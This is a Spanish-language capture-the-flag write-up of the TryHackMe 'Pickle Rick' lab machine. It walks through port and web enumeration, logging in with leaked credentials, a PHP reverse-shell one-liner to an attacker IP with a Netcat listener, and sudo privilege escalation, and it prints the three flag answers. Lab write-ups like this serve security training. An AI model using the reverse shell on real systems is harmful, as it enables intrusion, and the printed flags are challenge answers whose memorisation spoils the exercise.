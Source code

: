 # PickleRick
Máquina resuelta de *TryHackMe* en la que se trabaja la enumeración y *fingerprinting*, *reverse shell*.
<div>
  <img src="https://img.shields.io/badge/-Kali-5e8ca8?style=for-the-badge&logo=kalilinux&logoColor=white" />
  <img src="https://img.shields.io/badge/-Nmap-6933FF?style=for-the-badge&logo=nmap&logoColor=white" />
  <img src="https://img.shields.io/badge/-Dirsearch-005571?style=for-the-badge&logo=dirsearch&logoColor=white" />
  <img src="https://img.shields.io/badge/-Bash-4EAA25?style=for-the-badge&logo=gnubash&logoColor=white" />
  <img src="https://img.shields.io/badge/-python-3776AB?style=for-the-badge&logo=python&logoColor=white" />
  <img src="https://img.shields.io/badge/-Netcat-F5455C?style=for-the-badge&logo=netcat&logoColor=white" />
</div>

## Objetivo

Explicar la realización del siguiente _Capture the flag_ perteneciente a la plataforma *TryHackMe*. Este desafío ambientado en la serie de *Rick y Morty* requiere explotar un servidor web y encuentrar 3 ingredientes (*flags*) para ayudar a *Rick* a crear una poción que lo transforme nuevamente en humano. Para ello, se deberá interactuar con un formulario, penetrar en la máquina y realizar una escalada de privilegios.

## Que hemos aprendido?

- Realizar fingerprinting y enumeración de puertos y enumeración web.
- Realizar una *reverse shell*.
- Escalada de privilegios.

## Herramientas utilizadas

- *Kali Linux*.
- Enumeración: *Nmap*, *Dirsearch*.
- Penetración: *Bash*, *PHP*, *Netcat*. 

## Steps

### Enumeración y fingerprinting

La máquina a vulnerar pertenece a la plataforma *TryHackMe*, la propia web te proporciona la IP de la máquina a vulnerar. La conexión a esta se hace mediante una VPN que te proporciona THM y asigna una nueva IP para que tu máquina interactúe con la máquina víctima.
El primero paso es lanzar **Nmap** sin *ping* (-Pn) y con los *scripts* por *default* de la herramienta (-sC) para que encuentre vulnerabilidades. Además se quieren conocer las versiones que corren en cada puerto (-sV) y el sistema operativo (-O). No se indica, específicamente, que compruebe todos los puertos pues en este tipo de máquina no será necesario.

![Captura de pantalla 2025-04-04 131854](https://github.com/user-attachments/assets/8527c885-9cdd-499a-ba91-bebcf4b73f80)

El comando devuelve 2 puertos TCPs abiertos:  
- En el puerto 22 corre la versión *Openssh 8.2p1*, en un sistema *Ubuntu*, servicio *SSH*.  
- En el puerto 80 corre el servidor *Apache 2.4.41*, en un sistema *Ubuntu*, servicio *HTTP*.

Primero nos dirigimos, desde el navegador, al puerot 80 de la IP dada, donde se puede ver un mensaje de ayuda de *Rick*. Si se inspecciona el código de la página se puede encontrar un comentario con el nombre de usuario *R1ckRul3s*.

![image](https://github.com/user-attachments/assets/52f9925c-635c-4310-bcb4-342b65b72e7e)

Seguidamente, con la ayuda de la herramienta **Dirsearch**, se hace una enumeración de posibles directorios y archivos que se encuentren en la web. Por la parte de directorios, únicamente aparece '/assets' pero su contenido no aporta ninguna pista. Sin embargo,sí aparecen varios archivos interesantes que son alzanzables. *Dirsearch* es lanzado con **Python3** indicando la IP a atacar (-u) y la lista a utilizar para la enumeración (-w); en este caso la 'raft-small-files-lowercase.txt'.

![Captura de pantalla 2025-04-04 134454](https://github.com/user-attachments/assets/664445ee-a900-445c-a035-085657bca083)

Al dirigrnos al archivo '/robots.txt' se encuentra lo que parece ser una contraseña, que junto con el usuario antes encontrado, serán útiles para el otro archivo /login.php', también hallado en la enumeración. 

![Captura de pantalla 2025-04-04 134517](https://github.com/user-attachments/assets/efdb16bd-b14c-41bd-bd19-edb158f80200)

| Usuario | Contraseña |
|---------|------------|
| R1ckRul3s | Wubbalubbadubdub |


### Vulnerabilidades explotadas

Al hacer el *log in* se llega a un formulario que accepta comandos. Despues de realizar un <code>whoami</code> y un <code>pwd</code>, se descubre que somos el usuario 'www-data' y estamos en el directorio '/var/www/html'. Ejecutando <code>ls</code>, aparecen la lista de archivos que contiene el directorio entre los que destaca 'Sup3rS3cretPickl3Ingred.txt. Para leer el contenido de este archivo es necesario utilizar el comadno <code>less</code>, en lugar de <code>cat</code>, pues este está deshabilitado y de esta manera se encuentra el primer ingrediente.

**Flag: mr. meeseek hair**

![image](https://github.com/user-attachments/assets/281596d6-0bb6-454a-99a9-bc4494a38749)

Otro archivo interesante para inspeccionar es 'clue.txt', el cual informa de buscar otro ingrediente alrededor del *file system*. Se intenta navegar por los directorios a través del panel de comandos pero no es posible y se encuentran muchas limitaciones. Por ese motivo se intentará hacer una *reverse shell* para penetrar la máquina y trabajar desde dentro.

![Captura de pantalla 2025-04-08 174710](https://github.com/user-attachments/assets/efdbda6c-9acc-41bf-bac4-90fef94e646e)

Después de comprobar que la máquina víctima tiene **PHP** instalado mediante el comando <code>which php</code>, me dispongo a hacer la *reverse* con el código sacado de la web de [*pentestmonkey*](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). Únicamente es preciso cambiar la dirección IP por la de nuestra máquina atacante (en este caso, nos la proporciona THM mediante la VPN) y el puerto que pondremos en escucha.

<code>php -r '$sock=fsockopen("10.23.92.113",1234);exec("/bin/sh -i <&3 >&3 2>&3");'</code>

Desde la máquina anfitriona se pone en escucha (-l) el puerto (-p) 1234 con la herramienta **Netcat**. Se le indica verbosidad (-v) para que muestre información como las conexiones establecidas y que no resuelva nombres de dominio (-n), solo se conecte a las direcciones IP, lo que hace que la conexión sea más rápida, evitando la resolución de DNS.

![Captura de pantalla 2025-04-08 180322](https://github.com/user-attachments/assets/655dc72c-3564-4a25-be3f-409d1498901a)

Una vez dentro, navegando hacia el directorio '/home/rick' aparece un archivo llamado 'second ingredients' donde se encuentra la segunda bandera. Desde dentro de la máquina ya se puede hacer uso de <code>cat</code> teniendo en cuenta que el archivo lo pondremos entre comas simples, pues su nombre está formado por dos palabras.

<code>cat 'second ingredients'</code>

**Flag: jerry tear**

![Captura de pantalla 2025-04-08 180738](https://github.com/user-attachments/assets/0607b361-f320-4904-a919-d9dfc0f53ef5)

Para encontrar el último ingrediente, se debe escalar privilegios. Primero se comprueba que comandos, el usuario actual (www-data), puede ejecutar con permisos de *sudo*. 

<code>sudo -l</code>

En la respuesta se aclara que se puede pasar a usuario *root* sin necesidad de instertar ninguna contraseña. Esto permite acceder al diretorio /*root* y encontrar dentro del archivo '3rd.txt' el tercer ingrediente.

![Captura de pantalla 2025-04-08 181105](https://github.com/user-attachments/assets/baf2e399-5077-4b13-b7de-40b90db803b0)

**Flag: fleeb juice **
